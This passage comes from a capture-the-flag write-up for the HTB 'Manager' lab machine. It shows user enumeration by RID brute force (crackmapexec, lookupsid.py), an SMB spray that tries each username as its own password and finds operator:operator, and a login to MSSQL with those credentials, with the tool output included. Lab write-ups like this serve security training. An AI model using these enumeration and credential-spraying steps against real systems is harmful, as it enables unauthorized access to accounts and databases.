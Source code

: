 ### RID

Alternatively, we could have got the usernames through the `rid` using either of the following commands:

```bash
crackmapexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute
lookupsid.py guest@10.10.11.236 --no-pass
```

This method will give us the same usernames which proves to be better than the first method (brute force) where the username must be in the wordlist.

### SMB

Let's see if someone is using the username as a password with the following command:

```bash
$ crackmapexec smb manager.htb -u users.lst -p users.lst --no-bruteforce

SMB         manager.htb     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         manager.htb     445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         manager.htb     445    DC01             [-] manager.htb\Raven:Raven STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [+] manager.htb\operator:operator
```

The user `operator` is using the username as a password great!

I tried connecting with `evil-winrm` but didn't work and SMB has nothing good for us.

### MSSQL

Let's connect `MSSQL` with the following command: `impacket-mssqlclient manager.htb/operator:operator@10.10.11.236 -windows-auth`

```shell
$ impacket-mssqlclient manager.htb/operator:operator@10.10.11.236 -windows-auth

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> 
```
